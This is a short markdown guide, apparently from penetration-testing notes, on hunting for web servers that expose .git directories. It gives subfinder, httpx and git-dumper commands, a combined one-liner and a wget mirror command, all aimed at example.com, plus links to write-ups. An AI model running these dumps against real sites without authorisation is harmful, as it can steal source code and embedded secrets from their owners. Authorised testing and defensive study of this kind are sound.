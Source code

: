# How to Hunt for Exposed .git Dorectories

## Dumping the Repo
```bash
echo example.com | subfinder -all -o subs.txt

cat subs.txt | httpx-toolkit -path /.git/HEAD -silent -mr "refs/heads" -rl 500 | tee git.txt

cat git.txt | cut -d '/' -f1,2,3,4 | while read url; do git-dumper $url git-dumper/$url; done
```

One Liner
```bash
echo example.com | subfinder -all | httpx-toolkit -path /.git/HEAD -silent -mr "refs/heads" -rl 500 | cut -d '/' -f1,2,3,4 | while read url; do git-dumper $url git-dumper/$url; done
```

Manual Dump
```bash
wget --mirror -I .git https://example.com/.git/
```

Resources
- [Web security - exposed .git folder in production](https://medium.com/smallcase-engineering/web-security-exposed-git-folder-in-production-51ad9484dee0)
- [Git Exposed - How to Identify and Exploit](https://medium.com/stolabs/git-exposed-how-to-identify-and-exploit-62df3c165c37)
- [Red Book - Exposed Git Repositories](https://github.com/v4resk/red-book/blob/main/web/web-vulnerabilities/server-side/exposed-git-repositories.md)
